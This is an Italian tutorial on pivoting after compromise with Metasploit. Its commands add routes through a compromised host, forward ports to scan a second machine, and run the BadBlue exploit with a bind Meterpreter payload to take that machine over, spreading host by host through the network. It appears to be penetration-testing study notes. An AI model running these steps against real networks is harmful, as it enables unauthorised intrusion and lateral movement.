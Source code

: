 
# Pivoting
Il Pivoting é una tecnica di post exploitation che consiste nel utilizzare un dispositivo compromesso per attaccare altri dispositivi che si trovano all'interno della sua stessa rete. <br>

Meterptreter ci consente di aggiungere delle rotte all'interno della sottorete bersaglio dandoci la possibilitá di effettuare delle scansioni o di lanciare altri exploit sui dispositvi connessi nella stessa rete. <br>
Quindi, dentro una sessione meterpreter possiamo usare: 
```bash
run autoroute -s <IP>/<SUB>
```
> `-s` sta per Subnet che potrebbe essere per esempio 192.158.1.0/24

Dopo aver applicato la rotta alla rete, possiamo mettere in background la sessione meterpreter (`ctrl+z`) per poi rinominare la sessione con
```bash
sessions -n <nome> -i <ID>
```
e da adesso abbiamo il completo accesso sulla rete target tramite quel dispositivo compromesso, infatti possiamo fare delle scansioni su altri dispositivi
```bash
use auxiliary/scanner/portscan/tcp
set RHOST <IP>
set PORTS 1-1000
run
```
> come `RHOST` andremo a mettere l'ip di una seconda macchina all'interno della rete target 

## Port Fowarding
Con  `autoroute` non possiamo usare Nmap per eseguire una scansione perché é applicato solo ai moduli di metasploit. <br>
per poter effettuare una scansione nmap, l'unico modo é quello di utilizzare meterpreter sulla macchina comrpomessa come ponte tra la nostra macchina attaccante e la seconda macchina target.
```bash
# dentro Meterpreter
portfwd add -l 1234 -p 80 -r <IP>
```
>  `-l` é la porta locale della macchina attaccante
>  `-p` é la porta del secondo target su cui vogliamo effettuare la connessione
>  `-r` é l'IP della seconda macchinia target

Dopo aver impostato il port forwarding possiamo effettuare una scansione nmap sulla porta 80 del target (`-p`) tramite la nostra porta locale (`-l`) utilizzando Metasploit:
```bash
db_nmap -sV -sS -p1234 localhost
```
> mi raccomando col effettuare la scansione alla nostra stessa porta al nostro stesso indirizzo IP per poter utilizzare il port farewarding appena impostato

Adesso possiamo utilizzare un modulo metasploit per exploitare un servizio su una determinata porta come ad esempio
```bash
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp      # impostiamo il collegamento diretto e non reverse dato che abbiamo già connesse le porte con il port forewarding
set RHOST <IP>                                # ip del secondo target
set LPORT <PORT>                              # impostare una porta diversa da quella usata da meterpreter per il primo target e da kali per il port forewarding
run
```
dopo aver usato questo modulo, avremo una sessione meterpreter sul secondo target e potremmo continuare cosí per tutti i dispositivi presenti all'interno della rete target.

---
